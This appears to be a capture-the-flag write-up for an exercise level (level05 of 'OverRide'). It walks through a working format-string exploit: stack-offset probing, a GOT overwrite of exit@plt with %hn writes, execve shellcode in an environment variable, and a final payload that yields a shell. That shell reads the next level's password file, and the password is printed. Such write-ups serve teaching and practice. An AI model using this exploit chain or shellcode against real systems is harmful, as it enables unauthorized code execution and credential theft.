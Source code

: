 # Level05

## Analysis

As usual, the source code can be found [here](./level05.c). First things we notice are that there is a call to `fgets(s, 100, stdin)` and an unprotected `printf(s)` call later on.

The buffer `s` is of size 100 so we cannot overflow using `fgets`.

However the fact that `printf()` is unprotected means that we can use it to write to any memory using `%n`.

## Exploit

We will need several elements to use this exploit. First of all, the stack index at which we need to write:

```bash
./level05
AAAA %x %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 0 0 0 0 ffffffff ffffdc84 f7fdb000 61616161 20782520 25207825
```

This represent the 10th index on the stack onto which we will write the target address (the one we want to replace).

Speaking of that, we will also need to get the address of `exit@plt`, which we can do using gdb:

```bash
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
(gdb)
```

`0x80497e0` is the target address we will place onto the stack (at the 10th offset).

We will also be storing our shellcode inside of an env variable (since our buffer gets modified during execution by `tolowercase()`), which means that we will need to get its address too:

```bash
export SHELLCODE=$(python -c 'print "\x90" * 150 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

To get the address we will use [this program](./resources/getenv.c):

```bash
gcc -m32 getenv.c
level05@OverRide:~$ /var/crash/a.out SHELLCODE
env address at 0xffffdd4c
```

## Payload

Now that we have every part we can start getting our payload ready:

First of all we need to write to the address of `exit()`. However, we cannot simply write the value we need to the address we want using `printf(%n)` since `%n` stores its value in a pointer to `int`. Issue being that the address we need to write overflow `MAX_INT`.

Hence why we will split the desired value into two `short` using `printf` flag `%hn`.

With the new method, we need two target addresses: `exit` and `exit` + 2:

```
[exit][exit + 2][first short][second short]
```

```
[\x08\x04\x97\xe0'[::-1]] + [\x08\x04\x97\xe2'[::-1]] + [first short] + [second short]
```

Now to treat our two values we want to write:

Our shellcode address is `0xffffdd4c`, we will add an offset to it to jump into the nopslide `0xffffdd4c + 50 = 0xffffdd7e`, we will split it into two 2 bytes values: 
- first half  = `0xffff` -> second short
- second half = `0xdd7e` -> first short

`0xffff` to decimal = `65535`
`0xdd7e` to decimal = `56702`

Since the `%n` flag counts the previously written bytes (the two addresses), we will need to substract 8 bytes from the first short:

```
[\x08\x04\x97\xe0'[::-1]] + [\x08\x04\x97\xe2'[::-1]] + [56702 - 8] + [second short]
```

For the second short we need to substract everything we've already written:

```
[\x08\x04\x97\xe0'[::-1]] + [\x08\x04\x97\xe2'[::-1]] + [56694] + [65535 - 56702]
```

<details>
  <summary>Spoiler</summary>

  Now for the final formatting:

  ```
  [\x08\x04\x97\xe0'[::-1]] + [\x08\x04\x97\xe2'[::-1]] + [56694] + [8833]

  python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1]  + '%56694d%10\$hn'+ '%8833d%11\$hn'" > /var/crash/test.txt
  ```

  ```bash
  cat /var/crash/test.txt - | ./level05
  whoami 
  level06
  cat /home/users/level06/.pass
  h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
  ```

</details>


